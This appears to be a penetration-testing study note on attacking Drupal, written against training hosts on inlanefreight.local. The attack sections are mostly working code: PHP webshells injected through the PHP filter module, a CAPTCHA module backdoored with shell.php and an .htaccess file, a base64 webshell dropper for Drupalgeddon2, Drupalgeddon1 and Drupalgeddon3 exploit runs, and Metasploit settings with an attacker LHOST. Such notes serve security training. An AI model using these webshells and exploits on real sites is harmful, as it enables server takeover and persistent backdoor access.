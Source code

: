 ### Footprinting + Enumeration
```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
curl -s http://drupal.inlanefreight.local/node/1
```
> [!NOTE] Note
> Not every Drupal installation will look the same or display the login page or even allow users to access the login page from the internet.

Trying this against the latest Drupal version will give a 404
```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

### Exploitation
##### RCE before version 8.0
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."
![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

`Save configuration` -> `Content` -> `Add content` -> `Basic page`

Slap this bad boy in there (**avoid driveby shooters by using md5 hash**) and make sure the`Text format` drop-down is set to `PHP code`
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
Node number may vary
```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
##### RCE 8.0 and up
From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first.
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Install the plugin (may be under the `Extend menu` depending on the Drupal version)

`Administration` -> `Reports` -> `Available updates` -> `Browse` -> Install

From there we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7. **Be sure to select `PHP code` from the `Text format` dropdown**

##### Uploading a Backdoor Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). 
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
Create a webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
Create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
Copy both files to the captcha folder and tar it up
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Install: `Manage` -> `Extend` -> `+ Install new module` -> `Upload and Install`
Exploit
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### Known Vulnerabilities
###### [Drupalgeddon1](https://www.exploit-db.com/exploits/34992) 
This allows us to add a new admin user from an unauthenticated standpoint
```bash
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u adot -p pwnd
```

###### [Drupalgeddon2](https://www.exploit-db.com/exploits/44448)
This allows for RCE
```bash
python3 drupalgeddon2.py 

curl -s http://drupal-dev.inlanefreight.local/hello.txt
```
Update script payload
```php
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
echo "PD9waHAgc<snip>" | base64 -d | tee adot8.php
```

```bash
curl http://drupal-dev.inlanefreight.local/adot8.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)
This is an authenticated remote code execution vulnerability that affects [multiple versions](https://www.drupal.org/sa-core-2018-004) of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.
```bash
multi/http/drupal_drupageddon3

msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
```


Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed `Drupalgeddon`. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
    
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

